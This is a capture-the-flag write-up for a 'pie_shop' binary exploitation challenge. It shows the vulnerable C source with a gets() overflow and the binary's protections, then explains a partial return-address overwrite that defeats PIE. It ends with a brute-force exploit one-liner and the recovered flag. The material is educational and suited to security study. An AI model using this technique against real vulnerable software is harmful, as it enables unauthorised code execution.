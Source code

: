 ## exploit
Source code:
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

void get_pie() {
	printf("What type of pie do you want? ");

	char pie[50];
	gets(pie);

	if (strcmp(pie, "apple") == 0) {
		printf("Here's your pie!\n");
		printf("      _,..---..,_\n");
		printf("  ,-\"`    .'.    `\"-,\n");
		printf(" ((      '.'.'      ))\n");
		printf("  `'-.,_   '   _,.-'`\n");
		printf("    `\\  `\"\"\"\"\"`  /`\n");
		printf("      `\"\"-----\"\"`\n");
	} else {
		printf("Whoops, looks like we're out of that one.\n");
	}
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("Welcome to the pie shop! Here we have all types of pies: apple pies, peach pies, blueberry pies, position independent executables, pumpkin pies, rhubarb pies...\n");
	get_pie();

	return 0;
}
```
file:

```
pie_shop: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9318df53faeaad841153110c8ded995df882498b, not stripped
```

checksec:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The vulnerability was in `get_pie` function, in fact there was a `gets` that allowed to overwrite RA without any kind of checks or canary.

Ok but where to jump?

Answer this question was not easy, in fact we had:

* ASLR enabled
* PIE code 
* NX stack
* no leak avaiable

```
$ cat /proc/sys/kernel/randomize_va_space
2
```

This combination was terrible especially with PIE code:

this kind of protection makes unpredicatble where code segment were loaded and change every time we execute binary. Of course the offsets, in the code section, remain the same. For istance we know that the offset of `flag` function ends with `1a9`, the `gets_pie` with `1bc` etc.

I explored two alternativies:

*  ### ret2vsyscall

![vmmap](https://i.ibb.co/vstZRxr/gdb-vmmap.png)
    as we can see in gdb we had vsyscall, this section load some functions at the same location without ASLR in order to speed up some system call. This could be useful in order to build some ROP chain but:

1. any attempts to jump into an arbitrary instruction inside this section cause a segfault.
    
![segfault](https://i.ibb.co/svmfLdb/gdb-crash-vsys.png|width=10)


2. the syscall inside this pages are:
        * __NR_gettimeofday
        * __NR_time
        * __NR_getcpu
        here maybe the interesting gadget could be RET but we are already able to jump at any location



*  ### partial overwrite

    The idea was to write the least significant 2 bytes of RA - in fact the offsets of instructions in code segment remained the same. Moreover I had another problem, to reach RA I needed to write `72` bytes plus `2` bytes to overwrite RA's least significant bytes, unfortunetley the len of malicious input was not multiple of 8, so a `NULL` byte was automatically appended.
    
    However:
    The goal is jump into `flag` procedure. Without overflow anything, the stack frame in `gets_pie` procedure contained RA to main procedure. So `5` of these bytes - the most significant ones - were the same as `flag` procedure, the problem was the less significant 3 bytes.
    
    Of these 3 bytes the least significant one was always `a9`, so remains 16 bit to guess and 8 of these (that i wasn't able to control) were: `0x00`. 
    
    The goal at this point was to find at least one execution that had `flag` procedure loaded into an address that ends with: `....0011a9`


```bash
for i in `seq 1 10000`; do python -c 'print "a"*72+"\xa9\x11"' | ./pie_shop 2> /dev/null | grep -i actf; done
```



##### flag: actf{a_different_kind_of_pie}



